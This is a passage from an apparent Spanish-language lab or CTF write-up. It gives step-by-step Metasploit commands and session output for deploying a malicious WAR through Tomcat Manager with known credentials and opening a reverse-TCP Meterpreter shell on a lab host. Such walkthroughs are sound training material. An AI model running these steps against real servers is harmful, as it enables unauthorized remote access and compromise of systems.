 Dentro de **Metasploit** existen 2 módulos que permiten subir el **archivo .WAR** malicioso a una ruta especifica y con esto, obtenemos usa sesión de **Meterpreter**.

En este caso, estaremos usando el siguiente modulo: `exploit/multi/http/tomcat_mgr_deploy`

Vamos a configurarlo por pasos:

* Inicia el **Metasploit Framework** y usa el módulo indicado:
```bash
msfconsole
*
use exploit/multi/http/tomcat_mgr_deploy
```

* Indica la IP de la máquina víctima y el **puerto 8080**:
```bash
msf6 exploit(multi/http/tomcat_mgr_deploy) > set RHOSTS 10.10.10.194
RHOSTS => 10.10.10.194
msf6 exploit(multi/http/tomcat_mgr_deploy) > set RPORT 8080
RPORT => 8080
```

* Agrega las credenciales de acceso:
```bash
msf6 exploit(multi/http/tomcat_mgr_deploy) > set HttpUsername tomcat
HttpUsername => tomcat
msf6 exploit(multi/http/tomcat_mgr_deploy) > set HttpPassword $3cureP4s5w0rd123!
HttpPassword => $3cureP4s5w0rd123!
```

* Especifica la ruta a donde va subir el archivo **.WAR**, este módulo añade la ruta **/deploy** por defecto:
```bash
msf6 exploit(multi/http/tomcat_mgr_deploy) > set PATH /manager/text
PATH => /manager/text
```

* Especifica el objetivo (target), que en este caso es una máquina linux y cambia el payload:
```bash
msf6 exploit(multi/http/tomcat_mgr_deploy) > set TARGET 3
TARGET => 3
msf6 exploit(multi/http/tomcat_mgr_deploy) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
PAYLOAD => linux/x86/meterpreter/reverse_tcp
```

* Revisa que tu IP sea correcta, si no cambiala a la correcta.

* Ejecuta el exploit:
```bash
msf6 exploit(multi/http/tomcat_mgr_deploy) > exploit
*
[*] Started reverse TCP handler on Tu_IP:4444 
[*] Using manually select target "Linux x86"
[*] Uploading 1593 bytes as MNkjBGJ.war ...
[*] Executing /MNkjBGJ/PFBzHUDvQt.jsp...
[*] Undeploying MNkjBGJ ...
[*] Sending stage (1017704 bytes) to 10.10.10.194
[*] Meterpreter session 1 opened (Tu_IP:4444 -> 10.10.10.194:44774)
*
meterpreter > getuid
Server username: tomcat
meterpreter > sysinfo
Computer     : 10.10.10.194
OS           : Ubuntu 20.04 (Linux 5.4.0-31-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter >
```
Y listo, ya ganamos acceso con este módulo.